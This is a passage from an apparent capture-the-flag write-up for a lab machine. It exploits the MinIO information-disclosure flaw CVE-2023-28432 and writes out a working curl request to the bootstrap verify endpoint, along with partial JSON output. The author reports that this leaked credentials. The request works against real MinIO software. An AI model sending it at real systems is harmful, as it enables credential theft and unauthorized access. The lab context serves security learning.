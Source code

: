 This appeared to be some sort of s3 bucket/API for minIO

Upon doing research on minIO I found these articles https://www.securityjoes.com/post/new-attack-vector-in-the-cloud-attackers-caught-exploiting-object-storage-services

https://www.pingsafe.com/blog/cve-2023-28432-minio-information-disclosure-vulnerability/

Since it looked like I had found an API endpoint this looked like it was worth exploring. After reading the articles I thought it would be worth trying the same thing here. 
Sure enough I was able to get some credentials out of this. 
![[Pasted image 20240208173829.png]]
To make this easier to read, I copied the command as curl out of Burpsuite and piped it to jq removing the -i flag. 
```bash
curl -s -k -X $'POST' \    
   -H $'Host: prd23-s3-backend.skyfall.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -  
H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 0' \  
   -b $'session=.eJwljstqAzEMAP_F5xxkWVpZ-ZnFetESaGE3OYX8exd6nGEO8257HXl-tfvzeOWt7d_R7s3XLPSAgAlEsxdCUeHMGj4WdZvJVls54VAmwysNCyXdrFRXaYgXdSYJYl0a4EbTMFnMZENmcjdFtkzpAzg6D0o0Nawt2zXyOvP4v-kX-nnU_vx95M8lomsiFiQx2zQBxTFJpMbyVaI-E6RTb58_e  
VY_7w.ZcBt1Q.AfNvlrmqL-S8AsglUAFXX12iABE' \  
   $'http://demo.skyfall.htb/minio/bootstrap/v1/verify' | jq  
{  
 "MinioEndpoints": [  
   {  
     "Legacy": false,  
     "SetCount": 1,  
     "DrivesPerSet": 4,  
     "Endpoints": [  
       {  
         "Scheme": "http",  
         "Opaque": "",  
         "User": null,  
         "Host": "minio-node1:9000",  
         "Path": "/data1",  
         "RawPath": "",  
         "OmitHost": false,  
         "ForceQuery": false,  
         "RawQuery": "",  
         "Fragment": "",  
         "RawFragment": "",  
         "IsLocal": false  
       },  
       {  
         "Scheme": "http",  
         "Opaque": "",  
         "User": null,  
         "Host": "minio-node2:9000",  
         "Path": "/data1",  
         "RawPath": "",  
         "OmitHost": false,  
         "ForceQuery": false,  
         "RawQuery": "",  
         "Fragment": "",  
         "RawFragment": "",  
         "IsLocal": true  
       },  
       {  
         "Scheme": "http",  
         "Opaque": "",  
```